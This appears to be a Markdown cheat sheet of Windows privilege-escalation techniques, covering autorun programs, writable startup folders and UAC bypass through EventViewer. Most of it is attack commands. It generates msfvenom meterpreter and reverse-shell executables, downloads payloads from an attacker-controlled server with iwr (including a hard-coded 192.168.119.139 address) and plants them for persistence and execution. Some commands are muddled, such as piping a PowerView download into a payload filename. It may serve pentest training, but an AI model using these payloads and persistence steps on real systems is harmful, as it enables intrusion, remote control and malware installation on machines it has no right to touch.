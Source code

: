 ### Autorun
-> Detection - windows
```powershell
C:\Users\<user>\Desktop\Tools\Accesschk\accesschk64.exe -wvu ""C:\Program Files\Autorun Program"  
\\FILE_ALL_ACCESS
```
-> Exploitation - kali
```powershell
msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f exe -o program.exe
```
```powershell
iex (iwr http://<file_server_IP>/PowerView.ps1 -Outfile program.exe)
move program.exe "C:\Program Files\Autorun Program"
logoff
```

### Startup Applications
-> Detection - Windows
```powershell
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" | findstr (F) 
\\BUILTIN\Users:(F)
```

-> msfvenom - Attacker VM
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o ok.exe
```

-> Exploitation - Windows
```powershell
iex (iwr http://<file_server_IP>/PowerView.ps1 -Outfile ok.exe)
move ok.exe “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”
logoff
```

### Bypass UAC
After obtaining a reverse shell on a machine with a local administrator user, it may be necessary to bypass User Account Control (UAC) to perform specific malicious actions, such as persistently installing malware, modifying security settings, or exploiting system vulnerabilities. This can be done through specialized techniques and tools designed to bypass the restrictions imposed by UAC.
- https://decoder.cloud/2017/02/03/bypassing-uac-from-a-remote-powershell-and-escalting-to-system/

#### EventViewer
-> Step 1 - Kali
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -f exe > ok.exe
```

-> Step 2 - Win Owned  
```powershell
cd C:\Windows\tasks
iwr -uri 192.168.119.139:805/shell.exe -Outfile shell.exe
Start-Process -NoNewWindow -FilePath C:\Windows\Tasks\shell.exe
```
